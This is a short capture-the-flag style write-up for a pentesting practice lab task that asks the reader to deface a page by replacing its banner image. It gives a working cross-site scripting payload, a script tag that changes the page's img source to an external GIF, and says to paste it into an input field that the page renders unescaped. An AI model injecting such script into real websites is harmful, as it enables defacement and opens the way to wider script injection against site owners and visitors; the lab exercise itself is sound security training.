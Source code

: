## Task 11 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/11)</small>

Objectives:

1. Replace the Pentester Academy Banner image with a Defacement Image

This is damn easy, I don't know why vivek has kept this at 11 number 😛. Well in this we need to change the source url of the image tag.

The value of input tag is rendered in the `<h2>` tag

```html
<script>
  document.querySelector("img").src =
    "https://cdn.theatlantic.com/thumbor/9u-u7nYP2JNVKNvfVlLzdCmq6_U=/0x50:960x590/720x405/media/img/mt/2016/10/banner-3/original.gif";
</script>
```

For POC, paste the above payload in the input field and hit enter
